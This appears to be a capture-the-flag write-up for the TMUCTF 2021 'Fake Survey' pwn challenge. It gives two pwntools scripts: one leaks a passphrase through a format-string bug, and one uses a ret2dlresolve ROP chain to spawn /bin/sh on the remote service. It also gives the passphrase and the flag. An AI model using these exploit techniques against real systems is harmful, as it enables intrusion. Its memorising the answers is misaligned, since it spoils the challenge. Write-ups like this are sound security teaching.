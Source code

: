 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. In the first step we have to use `format string` vulnerability to leak the needed passPhrase. In second step we can use `return ro dl_reslove` technique.   
Here is the script used for the first step (also available in [solve_step1.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step1.py)):    
```python
import pwn
import time

i = 1
a = []
while i != 15:
    r = pwn.remote("185.235.41.205", 7050)
    r.recvlines(20)
    p = "%" + str(i) + "$p"
    r.sendline(p.encode())
    user_pass = r.recvlines(2)[1].decode().split(" ")[-1]
    print(user_pass)
    a.append(user_pass)
    i += 1

passphrase = []
for k in a:
    try:
        passphrase.append(pwn.p32(int(k, 16)).decode("latin-1"))
    except Exception as e:
        pass

print("".join(passphrase))
```   
And for `return to dl_resove` I used `Ret2dlresolvePayload` class of `pwntools`. Here is its script (also available in [solve_step2.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step2.py)):  
```python
from pwn import *

context.binary = elf = ELF('./fakesurvey')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote("185.235.41.205", 7050)
p.sendline("CPRSyRMOFa3FVIF".encode())
p.sendline(fit({64 + context.bytes * 3: raw_rop, 200: dlresolve.payload}))
p.interactive()
```   
The flag:   
```
TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3}
```  
